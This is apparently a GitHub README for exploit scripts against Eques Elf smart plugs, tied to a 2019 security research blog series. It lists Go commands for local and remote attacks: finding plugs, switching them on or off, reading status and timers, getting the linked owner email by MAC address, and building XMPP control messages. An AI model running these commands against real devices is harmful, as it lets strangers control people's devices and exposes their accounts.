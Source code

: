 This repo contains exploit code/scripts for the eques elf smart plugs - https://equeshome.com/products/elf-smart-plug.

Full details can be found in the following four part series - https://www.ckn.io/blog/2019/08/27/exploiting-the-eques-elf-smart-plug-part-one/

## Local attacks

To discover all smart plugs in a network:

```
go run equeslocal.go --command=discover
```
To check the status of a smart plug:

```
go run equeslocal.go --mac=<mac address of the plug> --pass=<password/name of the plug> --ip=<IP address of the plug> --command=status
```
To turn on a smart plug:

```
go run equeslocal.go --mac=<mac address of the plug> --pass=<password/name of the plug> --ip=<IP address of the plug> --command=on
```
To turn off a smart plug:

```
go run equeslocal.go --mac=<mac address of the plug> --pass=<password/name of the plug> --ip=<IP address of the plug> --command=off
```
## Remote attacks

To check the software and hardware version of a smart plug
```
go run equescommand.go --mac=<mac address of the plug> --command=version
```
To check the status of a smart plug
```
go run equescommand.go --mac=<mac address of the plug> --command=status
```
To get the email account linked to a smart plug
```
go run equescommand.go --mac=<mac address of the plug> --command=auth
```
To check if a timer is set on a smart plug
```
go run equescommand.go --mac=<mac address of the plug> --command=timer
```
To generate the message to turn the plug on over xmpp. The message can then be sent to "devicemac"@ikonkek2.com.
```
go run equesxmpp.go --devicemac=<mac address of the plug> --pass=<password/name of the plug> --command=on
```
To generate the message to turn the plug off over xmpp. The message can then be sent to "devicemac"@ikonkek2.com.
```
go run equesxmpp.go --devicemac=<mac address of the plug> --pass=<password/name of the plug> --command=off
```
